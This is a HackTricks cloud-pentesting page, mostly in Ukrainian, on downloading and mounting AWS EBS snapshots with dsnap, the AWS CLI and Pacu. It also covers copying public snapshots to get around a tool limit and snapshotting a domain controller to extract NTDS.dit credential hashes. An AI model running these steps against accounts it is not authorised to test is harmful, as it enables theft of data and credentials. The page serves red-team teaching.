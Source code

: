 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Перевірка знімка локально
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Зверніть увагу**, що `dsnap` не дозволить вам завантажити публічні знімки. Щоб обійти це, ви можете зробити копію знімка у вашому особистому акаунті та завантажити його:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Для отримання додаткової інформації про цю техніку перегляньте оригінальне дослідження в [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Ви можете зробити це з Pacu, використовуючи модуль [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Перевірка знімка в AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Підключіть його до EC2 VM під вашим контролем** (він має бути в тому ж регіоні, що й копія резервної копії):

Крок 1: Необхідно створити новий об'єм вашого вибраного розміру та типу, перейшовши до EC2 –> Об'єми.

Щоб виконати цю дію, виконайте такі команди:

* Створіть EBS об'єм для підключення до EC2 екземпляра.
* Переконайтеся, що EBS об'єм і екземпляр знаходяться в одній зоні.

Крок 2: Виберіть опцію "підключити об'єм", клацнувши правою кнопкою миші на створеному об'ємі.

Крок 3: Виберіть екземпляр з текстового поля екземпляра.

Щоб виконати цю дію, використовуйте наступну команду:

* Підключіть EBS об'єм.

Крок 4: Увійдіть до EC2 екземпляра та перелікуйте доступні диски, використовуючи команду `lsblk`.

Крок 5: Перевірте, чи є дані на об'ємі, використовуючи команду `sudo file -s /dev/xvdf`.

Якщо вихід з вищезазначеної команди показує "/dev/xvdf: data", це означає, що об'єм порожній.

Крок 6: Форматуйте об'єм у файлову систему ext4, використовуючи команду `sudo mkfs -t ext4 /dev/xvdf`. Альтернативно, ви також можете використовувати формат xfs, використовуючи команду `sudo mkfs -t xfs /dev/xvdf`. Зверніть увагу, що ви повинні використовувати або ext4, або xfs.

Крок 7: Створіть каталог на ваш вибір для підключення нового об'єму ext4. Наприклад, ви можете використовувати назву "newvolume".

Щоб виконати цю дію, використовуйте команду `sudo mkdir /newvolume`.

Крок 8: Підключіть об'єм до каталогу "newvolume", використовуючи команду `sudo mount /dev/xvdf /newvolume/`.

Крок 9: Перейдіть до каталогу "newvolume" і перевірте дисковий простір, щоб підтвердити підключення об'єму.

Щоб виконати цю дію, використовуйте такі команди:

* Перейдіть до `/newvolume`.
* Перевірте дисковий простір, використовуючи команду `df -h .`. Вихід цієї команди має показувати вільний простір у каталозі "newvolume".

Ви можете зробити це з Pacu, використовуючи модуль `ebs__explore_snapshots`.

## Перевірка знімка в AWS (використовуючи cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Будь-який користувач AWS, який має дозвіл **`EC2:CreateSnapshot`**, може вкрасти хеші всіх доменних користувачів, створивши **знімок Контролера домену**, змонтувавши його на екземплярі, яким він керує, і **експортувавши NTDS.dit та реєстровий файл SYSTEM** для використання з проектом secretsdump від Impacket.

Ви можете використовувати цей інструмент для автоматизації атаки: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) або ви можете використовувати одну з попередніх технік після створення знімка.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
